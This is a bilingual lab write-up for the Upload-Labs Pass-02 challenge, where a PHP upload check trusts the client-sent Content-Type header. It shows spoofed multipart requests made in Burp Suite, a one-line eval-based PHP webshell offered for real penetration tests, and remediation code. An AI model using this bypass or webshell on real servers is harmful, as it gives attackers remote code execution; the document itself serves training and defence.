



# Upload-Labs Pass-02 Writeup

**[English](#english) | [中文](#中文)**

---

<a name="english"></a>
## 🇬🇧 English

### Challenge Overview

| Item | Details |
|------|---------|
| **Challenge** | Pass-02 |
| **Type** | Server-side MIME Type Validation |
| **Difficulty** | ⭐ Easy |
| **Vulnerability** | Content-Type header trust without verification |
| **Key Concept** | `$_FILES` superglobal, MIME type spoofing |

### Objective

Upload a webshell to the server by bypassing the MIME type check.

---

### Source Code Analysis

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || 
            ($_FILES['upload_file']['type'] == 'image/png') || 
            ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name'];
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

#### Line-by-Line Breakdown

##### 1. Trigger Condition
```php
if (isset($_POST['submit'])) {
```

| Component | Type | Description |
|-----------|------|-------------|
| `$_POST` | PHP Superglobal | Receives POST request data |
| `isset()` | PHP Function | Checks if variable exists and is not null |
| `'submit'` | Form field name | Corresponds to submit button's name attribute |

##### 2. Environment Check
```php
if (file_exists(UPLOAD_PATH)) {
```
- Verifies the upload directory exists on the server
- `UPLOAD_PATH` is a constant defined elsewhere (typically `./upload/`)
- Basic error handling, not security-related

##### 3. Core Validation Logic (THE VULNERABILITY)
```php
if (($_FILES['upload_file']['type'] == 'image/jpeg') || 
    ($_FILES['upload_file']['type'] == 'image/png') || 
    ($_FILES['upload_file']['type'] == 'image/gif')) {
```

| Component | Type | Description |
|-----------|------|-------------|
| `$_FILES` | PHP Superglobal | Contains uploaded file information |
| `['upload_file']` | Array key | Matches `<input name="upload_file">` in HTML |
| `['type']` | Array key | The MIME type of uploaded file |
| `'image/jpeg'` | String literal | Expected MIME type for JPEG images |

**🚨 Critical Flaw:** The code checks `$_FILES['type']` which comes directly from the HTTP request's `Content-Type` header - completely controlled by the client!

##### 4. Temporary File Handling
```php
$temp_file = $_FILES['upload_file']['tmp_name'];
```

**What is `tmp_name`?**

"tmp" = **Temporary**

When a file is uploaded:
1. Browser sends file data to server
2. PHP saves it to a **temporary location** first (not the final destination)
3. System assigns a **random name** like `phpRe4a2s`

| OS | Typical Temp Path |
|----|-------------------|
| Linux | `/tmp/phpXXXXXX` |
| Windows | `C:\Windows\Temp\phpXXXX.tmp` |

**Why temporary?**
- Security: Files aren't immediately placed in web-accessible directories
- Validation: Gives code a chance to inspect before committing
- Cleanup: If script fails, temp file is auto-deleted

##### 5. Final Path Construction
```php
$img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name'];
```

| Component | Source | Description |
|-----------|--------|-------------|
| `UPLOAD_PATH` | Server constant | Destination directory |
| `/` | String literal | Path separator |
| `$_FILES['...']['name']` | **CLIENT INPUT** | Original filename from user |

**🚨 Critical Flaw:** The filename is taken directly from user input without sanitization!

##### 6. File Move Operation
```php
if (move_uploaded_file($temp_file, $img_path)) {
    $is_upload = true;
}
```

- `move_uploaded_file()`: PHP built-in function
- Moves file from temp location to final destination
- Returns `true` on success, `false` on failure

---

### Deep Dive: The `$_FILES` Superglobal

When a user uploads a file, PHP automatically populates the `$_FILES` array:

```php
$_FILES['upload_file'] = array(
    'name'     => 'shell.php',           // Original filename (CLIENT-CONTROLLED)
    'type'     => 'application/x-php',   // MIME type (CLIENT-CONTROLLED)
    'tmp_name' => '/tmp/phpRe4a2s',      // Temp path (SERVER-GENERATED)
    'error'    => 0,                     // Error code (SERVER-GENERATED)
    'size'     => 26                     // File size in bytes (SERVER-CALCULATED)
);
```

#### Trust Analysis

| Key | Source | Trustworthy? | Security Implication |
|-----|--------|--------------|---------------------|
| `name` | HTTP `filename` field | ❌ **NO** | Can be spoofed to any value |
| `type` | HTTP `Content-Type` field | ❌ **NO** | Can be spoofed to any value |
| `tmp_name` | Operating system | ✅ YES | Random, unpredictable |
| `error` | PHP engine | ✅ YES | Reflects actual upload status |
| `size` | PHP engine | ✅ YES | Calculated from actual data |

#### Why the Underscore `_` in `$_FILES`?

In PHP, variables starting with `$_` are **Superglobals** - predefined variables that are always accessible:

| Variable | Purpose |
|----------|---------|
| `$_GET` | URL query parameters |
| `$_POST` | Form POST data |
| `$_FILES` | Uploaded file information |
| `$_COOKIE` | Browser cookies |
| `$_SESSION` | Session data |
| `$_SERVER` | Server/execution environment info |

The underscore prefix is a **naming convention** to distinguish system-provided variables from user-defined ones.

---

### Deep Dive: How MIME Types Are Generated

#### Browser Side (Client)

```
User selects: shell.php
        ↓
Browser checks extension: .php
        ↓
Browser looks up internal mapping table:
    .jpg  → image/jpeg
    .png  → image/png
    .php  → application/x-php (or application/octet-stream)
        ↓
Browser sets in HTTP request:
    Content-Type: application/x-php
```

#### Server Side (PHP)

```
Server receives HTTP request
        ↓
PHP parses multipart form data
        ↓
PHP reads Content-Type header value
        ↓
PHP DIRECTLY ASSIGNS to $_FILES['...']['type']
        ↓
NO re-verification of actual file content!
```

**🔑 Key Insight:**
> `$_FILES['type']` is entirely determined by the client. The server blindly trusts whatever the browser (or attacker) sends!

---

### HTTP Request Structure Analysis

#### Original Request (Blocked)

```http
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 172.16.159.167
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXkpavnXAhRAbep6

------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="upload_file"; filename="muma.php"
Content-Type: text/php                    ← Server checks THIS (FAILS!)

<?php phpinfo(); ?>
------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryXkpavnXAhRAbep6--
```

#### Modified Request (Bypasses Check)

```http
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 172.16.159.167
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXkpavnXAhRAbep6

------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="upload_file"; filename="muma.php"
Content-Type: image/jpeg                  ← MODIFIED to bypass check!

<?php phpinfo(); ?>
------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryXkpavnXAhRAbep6--
```

#### Field Purpose Matrix

| Field | Who Reads It | What It Controls |
|-------|--------------|------------------|
| `filename="muma.php"` | Server's `move_uploaded_file()` | **Final saved filename** |
| `Content-Type: image/jpeg` | Server's validation code | **Pass/fail the type check** |
| `<?php phpinfo(); ?>` | PHP interpreter (when accessed) | **Actual executed code** |

**The Disconnect:**
```
Server CHECKS  → Content-Type (the "label")
Server SAVES   → filename (the "name")

These two are COMPLETELY INDEPENDENT!
```

#### Analogy: The Security Guard

Imagine a building with a security checkpoint:

- **Security guard checks:** Your badge/ID (Content-Type)
- **Reception logs:** Your real name (filename)

If you wear a badge that says "Photographer" but sign in as "Hacker", the guard lets you through because your badge looks legitimate, but the visitor log now has "Hacker" written in it.

---

### Exploitation Walkthrough

#### Step 1: Prepare the Payload

**File:** `muma.php`
```php
<?php phpinfo(); ?>
```

For actual penetration testing:
```php
<?php @eval($_POST['cmd']); ?>
```

#### Step 2: Configure Burp Suite

1. Open Burp Suite Professional
2. Go to **Proxy** → **Intercept**
3. Ensure **"Intercept is on"** is enabled
4. Configure browser to use Burp proxy (127.0.0.1:8080)

#### Step 3: Attempt Upload

1. Navigate to Pass-02 page
2. Click "选择文件" and select `muma.php`
3. Click "上传" (Upload)
4. Request is intercepted by Burp



**Observe:** The `Content-Type` is `text/php` - this will fail the server's check.

#### Step 4: Modify the Request

In Burp Suite, locate and modify:

```
Before: Content-Type: text/php
After:  Content-Type: image/jpeg
```

**Important:** Only change the Content-Type within the multipart section, NOT the main request header.



#### Step 5: Forward the Request

1. Click **"Forward"** in Burp Suite
2. The modified request is sent to server
3. Server checks `$_FILES['type']` → sees `image/jpeg` → **PASSES**
4. Server saves file as `muma.php` → **SUCCESS**

#### Step 6: Verify Exploitation

Access the uploaded file:
```
http://172.16.159.167/upload/muma.php
```



**Success!** The PHP code executes, proving the webshell is active.

---

### Comparison: Pass-01 vs Pass-02

| Aspect | Pass-01 (JS Validation) | Pass-02 (MIME Validation) |
|--------|------------------------|---------------------------|
| **Validation Location** | Client-side (Browser) | Server-side (PHP) |
| **What's Checked** | File extension (`.jpg`, `.php`) | Content-Type header |
| **Check Mechanism** | JavaScript `indexOf()` | PHP `$_FILES['type']` comparison |
| **Burp Intercept** | ❌ Cannot capture (JS blocks before sending) | ✅ Can capture request |
| **Bypass Method** | Disable JS / Override function | Modify HTTP header |
| **Bypass Difficulty** | Very Easy | Easy |
| **Requires Burp?** | Optional (can disable JS) | Recommended |

#### Detection Method Flowchart

```
Click Upload Button
        ↓
    Instant popup with NO network activity?
        ├── YES → Front-end (JS) validation
        │         (Burp shows nothing)
        │
        └── NO → Request sent to server
                  (Burp captures the request)
                        ↓
                  Error returned?
                        ├── YES → Back-end validation
                        └── NO → Upload successful
```

---

### Key Takeaways

| Concept | Description |
|---------|-------------|
| **Never trust client input** | `$_FILES['type']` is client-controlled |
| **MIME ≠ Reality** | Content-Type header can be anything |
| **Validate file content** | Use `finfo_file()` or magic bytes |
| **Whitelist extensions** | Server-side extension checking |
| **Defense in depth** | Multiple validation layers |

---

### Remediation

#### Vulnerable Code
```php
// ❌ INSECURE: Trusting client-provided MIME type
if ($_FILES['upload_file']['type'] == 'image/jpeg') {
    // Allow upload
}
```

#### Secure Code
```php
// ✅ SECURE: Server-side content verification
$finfo = new finfo(FILEINFO_MIME_TYPE);
$actual_mime = $finfo->file($_FILES['upload_file']['tmp_name']);

$allowed_mimes = ['image/jpeg', 'image/png', 'image/gif'];
$allowed_exts = ['jpg', 'jpeg', 'png', 'gif'];

// Check ACTUAL file content
if (!in_array($actual_mime, $allowed_mimes)) {
    die("Invalid file type!");
}

// Check extension
$ext = strtolower(pathinfo($_FILES['upload_file']['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_exts)) {
    die("Invalid extension!");
}

// Generate safe filename (don't trust user input)
$safe_name = uniqid() . '.' . $ext;
$destination = UPLOAD_PATH . '/' . $safe_name;

move_uploaded_file($_FILES['upload_file']['tmp_name'], $destination);
```

---

### Extended Learning

#### Questions to Consider

1. **Why is checking only MIME type insecure?**
   - Because it's a client-provided header, not derived from file content

2. **What if the server used `finfo_file()` or `getimagesize()`?**
   - These check actual file content, making simple header spoofing ineffective
   - Would require image header injection (covered in Pass-13~15)

3. **What's the relationship between Content-Type and file content?**
   - None enforced! The header is just a "claim" that can be false

#### Related Concepts

- MIME Types: RFC 2045
- HTTP Multipart: RFC 2046
- PHP File Upload: `$_FILES` superglobal
- Content-Type header manipulation

---

<a name="中文"></a>
## 🇨🇳 中文

### 挑战概览

| 项目 | 详情 |
|------|------|
| **关卡** | Pass-02 |
| **类型** | 服务端 MIME 类型校验 |
| **难度** | ⭐ 简单 |
| **漏洞** | 信任 Content-Type 头而不验证实际内容 |
| **核心概念** | `$_FILES` 超全局变量、MIME 类型伪造 |

### 目标

通过绕过 MIME 类型检查，上传 webshell 到服务器。

---

### 源码分析

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        if (($_FILES['upload_file']['type'] == 'image/jpeg') || 
            ($_FILES['upload_file']['type'] == 'image/png') || 
            ($_FILES['upload_file']['type'] == 'image/gif')) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name'];
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '文件类型不正确，请重新上传！';
        }
    } else {
        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
    }
}
```

#### 逐行拆解

##### 1. 触发条件
```php
if (isset($_POST['submit'])) {
```

| 组成部分 | 类型 | 说明 |
|---------|------|------|
| `$_POST` | PHP 超全局变量 | 接收 POST 请求数据 |
| `isset()` | PHP 函数 | 检查变量是否存在且不为 null |
| `'submit'` | 表单字段名 | 对应提交按钮的 name 属性 |

##### 2. 环境检查
```php
if (file_exists(UPLOAD_PATH)) {
```
- 验证服务器上的上传目录是否存在
- `UPLOAD_PATH` 是在其他地方定义的常量（通常是 `./upload/`）
- 这是基础的容错处理，与安全校验关系不大

##### 3. 核心校验逻辑（漏洞所在！）
```php
if (($_FILES['upload_file']['type'] == 'image/jpeg') || 
    ($_FILES['upload_file']['type'] == 'image/png') || 
    ($_FILES['upload_file']['type'] == 'image/gif')) {
```

| 组成部分 | 类型 | 说明 |
|---------|------|------|
| `$_FILES` | PHP 超全局变量 | 包含上传文件的信息 |
| `['upload_file']` | 数组键名 | 对应 HTML 中的 `<input name="upload_file">` |
| `['type']` | 数组键名 | 上传文件的 MIME 类型 |
| `'image/jpeg'` | 字符串字面量 | JPEG 图片的预期 MIME 类型 |

**🚨 致命缺陷：** 代码检查的 `$_FILES['type']` 直接来源于 HTTP 请求的 `Content-Type` 头——完全由客户端控制！

##### 4. 临时文件处理
```php
$temp_file = $_FILES['upload_file']['tmp_name'];
```

**什么是 `tmp_name`？**

"tmp" = **Temporary（临时的）**

文件上传时的流程：
1. 浏览器把文件数据发送到服务器
2. PHP 先将文件保存到**临时位置**（不是最终目录）
3. 系统分配一个**随机名称**，如 `phpRe4a2s`

| 操作系统 | 典型临时路径 |
|---------|-------------|
| Linux | `/tmp/phpXXXXXX` |
| Windows | `C:\Windows\Temp\phpXXXX.tmp` |

**为什么要"临时"？**
- **安全性**：文件不会立即放到 Web 可访问的目录
- **校验窗口**：给代码一个检查的机会
- **自动清理**：如果脚本失败，临时文件会被自动删除

##### 5. 最终路径构造
```php
$img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name'];
```

| 组成部分 | 来源 | 说明 |
|---------|------|------|
| `UPLOAD_PATH` | 服务器常量 | 目标目录 |
| `/` | 字符串字面量 | 路径分隔符 |
| `$_FILES['...']['name']` | **客户端输入** | 用户提供的原始文件名 |

**🚨 致命缺陷：** 文件名直接取自用户输入，没有任何过滤！

##### 6. 文件移动操作
```php
if (move_uploaded_file($temp_file, $img_path)) {
    $is_upload = true;
}
```

- `move_uploaded_file()`：PHP 内置函数
- 将文件从临时位置移动到最终目标
- 成功返回 `true`，失败返回 `false`

---

### 深入理解：`$_FILES` 超全局变量

当用户上传文件时，PHP 自动填充 `$_FILES` 数组：

```php
$_FILES['upload_file'] = array(
    'name'     => 'shell.php',           // 原始文件名（客户端控制）
    'type'     => 'application/x-php',   // MIME 类型（客户端控制）
    'tmp_name' => '/tmp/phpRe4a2s',      // 临时路径（服务器生成）
    'error'    => 0,                     // 错误代码（服务器生成）
    'size'     => 26                     // 文件大小（服务器计算）
);
```

#### 信任度分析

| 键名 | 数据来源 | 可信？ | 安全影响 |
|-----|---------|-------|---------|
| `name` | HTTP `filename` 字段 | ❌ **否** | 可伪造成任意值 |
| `type` | HTTP `Content-Type` 字段 | ❌ **否** | 可伪造成任意值 |
| `tmp_name` | 操作系统 | ✅ 是 | 随机生成，不可预测 |
| `error` | PHP 引擎 | ✅ 是 | 反映实际上传状态 |
| `size` | PHP 引擎 | ✅ 是 | 根据实际数据计算 |

#### 为什么 `$_FILES` 前面有下划线 `_`？

在 PHP 中，以 `$_` 开头的变量是**超全局变量**——预定义的、始终可访问的变量：

| 变量 | 用途 |
|-----|------|
| `$_GET` | URL 查询参数 |
| `$_POST` | 表单 POST 数据 |
| `$_FILES` | 上传文件信息 |
| `$_COOKIE` | 浏览器 Cookie |
| `$_SESSION` | 会话数据 |
| `$_SERVER` | 服务器/执行环境信息 |

下划线前缀是一种**命名约定**，用于区分系统提供的变量和用户自定义的变量。

**类比理解：**
- **普通变量（如 `$msg`）** = 你自己买的**背包**，想装什么装什么
- **超全局变量（如 `$_FILES`）** = 你家门口的**信箱**，PHP 自动往里面塞外界发来的数据

---

### 深入理解：MIME 类型的产生过程

#### 浏览器端（客户端）

```
用户选择: shell.php
        ↓
浏览器检查后缀名: .php
        ↓
浏览器查询内部映射表:
    .jpg  → image/jpeg
    .png  → image/png
    .php  → application/x-php (或 application/octet-stream)
        ↓
浏览器在 HTTP 请求中设置:
    Content-Type: application/x-php
```

#### 服务器端（PHP）

```
服务器接收 HTTP 请求
        ↓
PHP 解析 multipart 表单数据
        ↓
PHP 读取 Content-Type 头部值
        ↓
PHP 直接赋值给 $_FILES['...']['type']
        ↓
不会重新验证文件实际内容！
```

**🔑 核心认知：**
> `$_FILES['type']` 完全由客户端决定。服务器只是"照单全收"，从不质疑！

---

### HTTP 请求结构分析

#### 原始请求（被拦截）

```http
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 172.16.159.167
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXkpavnXAhRAbep6

------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="upload_file"; filename="muma.php"
Content-Type: text/php                    ← 服务器检查这里（失败！）

<?php phpinfo(); ?>
------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryXkpavnXAhRAbep6--
```

#### 修改后的请求（绕过检查）

```http
POST /Pass-02/index.php?action=show_code HTTP/1.1
Host: 172.16.159.167
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXkpavnXAhRAbep6

------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="upload_file"; filename="muma.php"
Content-Type: image/jpeg                  ← 修改后绕过检查！

<?php phpinfo(); ?>
------WebKitFormBoundaryXkpavnXAhRAbep6
Content-Disposition: form-data; name="submit"

上传
------WebKitFormBoundaryXkpavnXAhRAbep6--
```

#### 字段作用矩阵

| 字段 | 给谁看 | 决定什么 |
|-----|-------|---------|
| `filename="muma.php"` | 服务器的 `move_uploaded_file()` | **最终保存的文件名** |
| `Content-Type: image/jpeg` | 服务器的校验代码 | **能否通过类型检查** |
| `<?php phpinfo(); ?>` | PHP 解释器（访问时） | **实际执行的代码** |

**核心逻辑漏洞：**
```
服务器检查的是 → Content-Type（标签）
服务器保存的是 → filename（名字）

两者完全独立，互不影响！
```

#### 类比：保安与登记簿

想象一个有安检的大楼入口：

- **保安检查的是**：你胸前的**工牌**（Content-Type）
- **登记簿记录的是**：你的**真实姓名**（filename）

如果你戴着"摄影师"的工牌，但登记时签名为"黑客"，保安会放你进去（因为工牌看起来合法），但访客登记簿上写的就是"黑客"这个名字。

---

### 漏洞利用完整流程

#### 步骤一：准备 Payload

**文件：** `muma.php`
```php
<?php phpinfo(); ?>
```

实际渗透测试中使用：
```php
<?php @eval($_POST['cmd']); ?>
```

#### 步骤二：配置 Burp Suite

1. 打开 Burp Suite Professional
2. 进入 **Proxy** → **Intercept**
3. 确保 **"Intercept is on"** 已启用
4. 配置浏览器使用 Burp 代理（127.0.0.1:8080）

#### 步骤三：尝试上传

1. 访问 Pass-02 页面
2. 点击"选择文件"，选中 `muma.php`
3. 点击"上传"
4. 请求被 Burp 拦截


**观察：** `Content-Type` 是 `text/php`——这会导致服务器校验失败。

#### 步骤四：修改请求

在 Burp Suite 中，找到并修改：

```
修改前: Content-Type: text/php
修改后: Content-Type: image/jpeg
```

**重要：** 只修改 multipart 部分内的 Content-Type，不要改主请求头。


#### 步骤五：放行请求

1. 点击 Burp Suite 中的 **"Forward"**
2. 修改后的请求发送到服务器
3. 服务器检查 `$_FILES['type']` → 看到 `image/jpeg` → **通过！**
4. 服务器保存文件为 `muma.php` → **成功！**

#### 步骤六：验证利用

访问上传的文件：
```
http://172.16.159.167/upload/muma.php
```


**成功！** PHP 代码执行，证明 webshell 已激活。

---

### 对比：Pass-01 vs Pass-02

| 维度 | Pass-01 (JS 校验) | Pass-02 (MIME 校验) |
|-----|------------------|-------------------|
| **校验位置** | 客户端（浏览器） | 服务端（PHP） |
| **检查对象** | 文件后缀名（`.jpg`、`.php`） | Content-Type 头 |
| **校验机制** | JavaScript `indexOf()` | PHP `$_FILES['type']` 比较 |
| **Burp 拦截** | ❌ 抓不到（JS 在发送前拦截） | ✅ 可以抓到请求 |
| **绕过方法** | 禁用 JS / 覆写函数 | 修改 HTTP 头 |
| **绕过难度** | 极易 | 简单 |
| **需要 Burp？** | 可选（可以禁用 JS） | 推荐使用 |

#### 判断方法流程图

```
点击上传按钮
        ↓
    瞬间弹窗且没有网络活动？
        ├── 是 → 前端（JS）校验
        │        （Burp 无显示）
        │
        └── 否 → 请求已发送到服务器
                 （Burp 捕获到请求）
                        ↓
                 返回错误？
                        ├── 是 → 后端校验
                        └── 否 → 上传成功
```

---

### 核心要点

| 概念 | 描述 |
|-----|------|
| **永远不要信任客户端输入** | `$_FILES['type']` 由客户端控制 |
| **MIME ≠ 实际内容** | Content-Type 头可以是任意值 |
| **验证文件内容** | 使用 `finfo_file()` 或魔数检查 |
| **白名单扩展名** | 服务端后缀名检查 |
| **纵深防御** | 多层校验机制 |

---

### 修复建议

#### 漏洞代码
```php
// ❌ 不安全：信任客户端提供的 MIME 类型
if ($_FILES['upload_file']['type'] == 'image/jpeg') {
    // 允许上传
}
```

#### 安全代码
```php
// ✅ 安全：服务端内容验证
$finfo = new finfo(FILEINFO_MIME_TYPE);
$actual_mime = $finfo->file($_FILES['upload_file']['tmp_name']);

$allowed_mimes = ['image/jpeg', 'image/png', 'image/gif'];
$allowed_exts = ['jpg', 'jpeg', 'png', 'gif'];

// 检查实际文件内容
if (!in_array($actual_mime, $allowed_mimes)) {
    die("无效的文件类型！");
}

// 检查扩展名
$ext = strtolower(pathinfo($_FILES['upload_file']['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed_exts)) {
    die("无效的扩展名！");
}

// 生成安全的文件名（不要信任用户输入）
$safe_name = uniqid() . '.' . $ext;
$destination = UPLOAD_PATH . '/' . $safe_name;

move_uploaded_file($_FILES['upload_file']['tmp_name'], $destination);
```

---

### 延伸学习

#### 思考问题

1. **为什么只检查 MIME 类型不安全？**
   - 因为它是客户端提供的头部，不是从文件内容推导的

2. **如果服务器使用 `finfo_file()` 或 `getimagesize()` 会怎样？**
   - 这些函数检查实际文件内容，简单的头部伪造会失效
   - 需要使用图片头注入（Pass-13~15 会涉及）

3. **Content-Type 和文件内容有什么关系？**
   - 没有强制关联！头部只是一个"声明"，可以是假的

#### 相关知识

- MIME 类型规范：RFC 2045
- HTTP Multipart：RFC 2046
- PHP 文件上传：`$_FILES` 超全局变量
- Content-Type 头部操作

---

## References / 参考资料

- [Upload-Labs GitHub](https://github.com/c0ny1/upload-labs)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP $_FILES Documentation](https://www.php.net/manual/en/reserved.variables.files.php)
- [RFC 2045 - MIME](https://tools.ietf.org/html/rfc2045)

---

**上一关 / Previous**: [Pass-01: 前端 JavaScript 绕过 / Client-side JS Bypass](../Pass-01/)  
**下一关 / Next**: [Pass-03: 黑名单绕过 - 特殊后缀 / Blacklist Bypass - Special Extensions](../Pass-03/)
